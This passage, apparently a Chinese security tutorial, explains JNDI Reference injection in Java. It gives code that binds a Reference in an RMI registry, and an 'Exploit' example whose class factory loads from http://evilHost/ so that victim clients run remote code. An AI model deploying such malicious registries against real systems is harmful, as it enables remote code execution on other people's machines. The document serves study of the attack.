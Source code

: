 ```plain
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class jndi {
    public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {
        String url = "http://127.0.0.1:8080"; 
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("test", "test", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("aa",referenceWrapper);


    }
}
```

这里再调用完Reference之后 又在调用ReferenceWrapper的时候 将前面的Reference对象传进去了 其实故名思意 就是wrap 包装的意思嘛 在我们 查看到Reference的时候 发现并没有是心啊Remote接口也没有继承`UnicastRemoteObject`​ 之前在RMI中了解过 将类注册到Registry的时候需要实现Remote和继承`UnicastRemoteObject`​在这里并没有体现 所以需要进行封装

### JNDI Reference注入

为了在命名服务或者目录服务中绑定Java对象 可以使用Java序列化来传输对象 但是当Java对象较大的时候 不是很好处理 于是JNDI就定义了命名应用(Naming References)这样对象就可以通过绑定一个 可以被命名管理器解码并解析为原始对象的引用 间接存储在命名或目录服务中

引用由Reference类表示 由地址(RefAddress)的有序列表和所引用对象的信息组成 而每个地址包含了如何构造对应对象的信息 包括引用对象的Java类名 以及用于创建对象的ObjectFactory类的名称和位置

Reference可以使用ObjectFactory来构造对象 当使用lookup方法查找对象时 Reference将使用提供的ObjectFactory类的加载地址来 加载ObjectFactory类 ObjectFactory类将构造出需要的对象

所谓的JNDI注入就是控制lookup函数的参数 这样来使客户端访问恶意的RMI或者 LDAP服务来加载恶意的对象 从而执行代码 完成利用

在JNDI服务中通过绑定一个外部远程对象让客户端请求 从而使客户端恶意代码执行的方式 就是利用Reference类实现的 此类表示对存在于命名/目录系统之外的对象的引用

具体则是指如果远程获取RMI服务器上的对象为Reference类或者子类时 则可以从其他服务器上加载class字节码文件来实例化

常用属性

```plain
className 远程加载时所使用的类名
classFactory 加载的class中需要实例化的类的名称
classFactoryLocation 提供classes数据的地址可以是file/ftp/http等协议
```

比如

```plain
Reference reference = new Reference("Exploit","Exploit","http://evilHost/");
registry.bind("Exploit", new ReferenceWrapper(reference));
```
